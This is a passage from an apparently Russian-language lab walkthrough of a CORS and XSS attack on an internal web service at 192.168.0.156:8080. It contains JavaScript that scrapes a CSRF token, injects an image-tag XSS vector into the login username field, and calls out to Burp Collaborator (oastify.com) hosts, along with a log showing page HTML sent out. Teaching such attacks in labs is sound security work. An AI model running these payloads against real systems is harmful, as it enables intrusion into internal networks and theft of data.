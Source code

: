 ```html
	setTimeout(x => {
		controller.abort();
		if(q.length) {
			q.shift()(wait);
		}
	}, wait);
}
</script>
```

Logs:

```
GET /exploit/znqatly393h7ax9ys71p7qaai1osci07.oastify.com?ip=192.168.0.156:8080&code=%3C!DOCTYPE%20html%3E%0A%3Chtml
```

**Шаг 2**

Теперь мы проверяем поле имени пользователя на наличие уязвимости XSS. Получаем взаимодействие Collaborator с `foundXSS=1` в URL

```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
	}))
}

fetchUrl("http://192.168.0.156:8080", "http://cn3ntyyg9ghkaa9bsk1273anieo7cx0m.oastify.com");
</script>
```

Collaborator:

![sop_example](../../images/cors_xss_collaborator.png)
